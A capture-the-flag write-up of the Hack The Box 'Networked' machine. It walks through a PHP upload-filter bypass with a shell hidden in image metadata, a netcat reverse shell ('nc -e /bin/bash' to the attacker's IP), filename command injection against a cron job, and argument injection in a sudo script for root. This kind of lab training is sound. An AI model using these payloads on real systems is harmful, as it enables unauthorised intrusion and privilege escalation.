 ```yaml
---
layout: page
title: Networked
order: 3
hide: true
auto-header: none
---
```


<a href="#" class="image centered"><img src="/assets/images/networked.png" alt="networked" /></a>

<h2>Networked</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.146   networked.htb`

<h3>Initial Scan</h3>
Next up we will run a standard NMAP scan. We get results back for 3 ports: 22 SSH open, 80 HTTP open and 443 HTTPS closed.

![Initial NMAP scan](/assets/images/networked-initial-scan.png)

<h3>Web enumeration</h3>
Port 80 looks interesting, if we look at the NMAP results we can see the server is running PHP. Let's start up gobuster and look for some interesting .php files.

![gobuster results](/assets/images/networked-gobuster-results.png)

We quickly find some promising files and directories, we will terminate gobuster early as I highly doubt we will find more on the machine and this is enough to get started with right now.
Let's take a look at `/upload.php` and `/photos.php`.

<h3>Bypassing the upload restriction to gain remote code execution</h3>
At first glance `/uploads.php` looks like very basic file upload functionality, we can assume it will let the user upload pictures to display on `/photos.php`.

![upload](/assets/images/networked-upload.png)

If we take a look at `/photos.php` we can see it's a basic photo gallery. Let's download one of the images and try to upload it through `/uploads.php`, we will name it `test.png`.

![photos](/assets/images/networked-photos.png)

The test image uploads successfully to the gallery.

![test upload successfull](/assets/images/networked-upload-success.png)

When we refresh the gallery we can see our image has been added and renamed to our IP address `10.10.X.X.png`

![gallery](/assets/images/networked-gallery-success.png)

Some quick googling shows us that the most common and likely way to check if an image is valid with PHP, is to look at the extention, and with the use of the **check_file_type** function. **check_file_type** looks at the mime type of the file to see if it equals `'image/'`.  
We can manually inject our reverse PHP shell into a `.png` image, but I will use a tool called [Exiftool](https://github.com/exiftool/exiftool) which can read, write and edit meta information.

![exiftool](/assets/images/networked-exiftool.png)

Let's rename our image to `test.php.png` and try upload it to the gallery.

![upload malicious image](/assets/images/networked-malicious-upload.png)

Upload successful! Let's set up a listener on port 444 with `nc -lnvp 444` and get our reverse shell by going to `networked.htb/uploads/10_10_X_X.php.png?cmd=nc -e /bin/bash 10.10.X.X 444`.

![reverse shell](/assets/images/networked-reverse-shell.png)

<h3>Getting user through command injection</h3>
Let's upgrade our shell using `python -c "import pty;pty.spawn('/bin/bash')"`. If we use `whoami` we can see we have a shell as the user `apache`.  
One of the first things we can do once we get our initial shell, is checkout the home directory. If we navigate to `/home` and `ls -la` we can see there is a home directory for the user **guly** and we have read access. Let's see what is inside.

![guly home](/assets/images/networked-home-guly.png)

We can see the `user.txt` flag, a file called `crontab.guly` and a file called `check_attack.php`. Let's take a look at the `crontab.guly` file first.

![crontab](/assets/images/networked-crontab.png)

Every 3 minutes this cronjob will execute `/home/guly/check_attack.php`. Let's take a look at `check_attack.php`.

![check attack](/assets/images/networked-check-attack.png)

If we analyze this file, we can see the `$value` variable which is called in `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &";`) is prone to command injection. This is the case because `$value` equals a filename in `$path` and `$path` equals `/var/www/html/uploads` as can be seen in the `foreach` statement.

```php
$path = '/var/www/html/uploads/';
$files = preg_grep('/^([^.])/', scandir($path)); #this expression filters out any files that start with a dot, then adds the remaining filenames as strings to the Array $files
foreach ($files as $key => $value) #for every filename in /var/www/html/uploads
```

Thus if we create a file in `/var/www/html/uploads` which has a semicolon and command in its filename, it'll be executed. Since we have write access to `/var/www/html/uploads`, we can use `touch` to create a file. `touch` only has a few characters which cannot be used in a filename, namely `\0 (NUL)` and `/`. With those limitations in mind we can craft our reverse shell command and set up a listener with `nc -lnvp 444`.

![reverse shell command](/assets/images/networked-reverse-shell-command.png)

After a couple of minutes we get our reverse shell and we can upgrade it using python. We now have a shell as **guly** and we can `cat user.txt` for the user flag.

![guly shell](/assets/images/networked-guly-shell.png)

<h3>Getting root through command injection</h3>
Time to move on from **user** and get **root**. Before we start running enumeration scripts like [LinEnum](https://github.com/rebootuser/LinEnum) and [Jalesc](https://github.com/itsKindred/jalesc) we should try `sudo -l` first to see which files **guly** is allowed to run as **root**. Luckily this proves to be all we need.

![sudo l](/assets/images/networked-sudo.png)

**Guly** is allowed to run `/usr/local/sbin/changename.sh` with `root` privileges without a password. Let's have a look at `changename.sh`.

![changename](/assets/images/networked-changename.png)

At first glance the script appears to be reading parameters and values from a file called `/etc/sysconfig/network-scripts/ifcfg-guly`, then it performs some regex filtering on user input and writes those values back to the config file.  
What makes this script vulnerable to command injection is the line `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly`.  
We know that `$x` is our user input we control, but it only allows: lowercase a-z, uppercase A-Z, numbers 0-9, `_` (underscore), `-` (dash), `/` (forward slash), `\` (back slash).  
In bash parameters are separated by a blank space `" "`, and this is where we can inject our own command. When we run the script with `sudo /usr/local/sbin/changename.sh` and give it
input like `cerbersec bash`, the script will execute `bash` for us and give us a **root** shell.

![root shell](/assets/images/networked-root-shell.png)

We can now `cd /root` and `cat root.txt`.

![root flag](/assets/images/networked-root-flag.png)
